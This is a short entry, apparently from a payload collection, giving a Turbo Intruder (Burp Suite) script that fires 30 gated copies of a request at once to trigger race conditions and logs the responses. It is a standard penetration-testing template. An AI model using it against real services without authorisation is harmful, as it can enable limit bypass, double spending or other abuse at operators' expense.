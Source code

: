 Race Condition payload for the Turbo Intruder extension (Burp Suite)

Payload:
def queueRequests(target, wordlists):
 engine = RequestEngine(endpoint=target.endpoint,
                    concurrentConnections=30,
                    requestsPerConnection=100,
                    pipeline=False
                    )

 for i in range(30):
     engine.queue(target.req, str(i), gate='race1')

 engine.openGate('race1')
 engine.complete(timeout=60)
def handleResponse(req, interesting):
 table.add(req)
